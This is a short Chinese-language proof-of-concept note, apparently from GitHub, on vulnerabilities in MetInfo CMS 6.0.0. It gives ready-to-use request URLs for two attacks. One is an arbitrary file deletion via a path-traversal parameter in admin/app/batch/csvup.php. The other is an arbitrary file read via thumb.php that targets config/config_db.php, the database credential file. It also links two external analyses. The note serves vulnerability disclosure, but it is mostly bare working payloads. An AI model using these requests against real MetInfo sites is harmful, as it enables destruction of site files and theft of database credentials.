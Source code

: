 ﻿
## Affected Version  

 **Metinfo 6.0.0**

## POC 

### 1 CMS安装的时候，比如数据库名字会被直接写进配置文件中。

### 2 任意删除

好像需要登陆后，才能执行成功。 admin目录下。

    192.168.0.4/metinfo600/admin/app/batch/csvup.php?fileField=test-1&flienamecsv=../../../config/test.txt

### 3  任意文件读取

    metinfo600/include/thumb.php?dir=http\..\..\config\config_db.php

## References

[Metinfo 6.0.0 众多漏洞分析](https://www.anquanke.com/post/id/154149)

[ MetInfo 任意文件读取漏洞的修复与绕过](https://paper.seebug.org/676/)







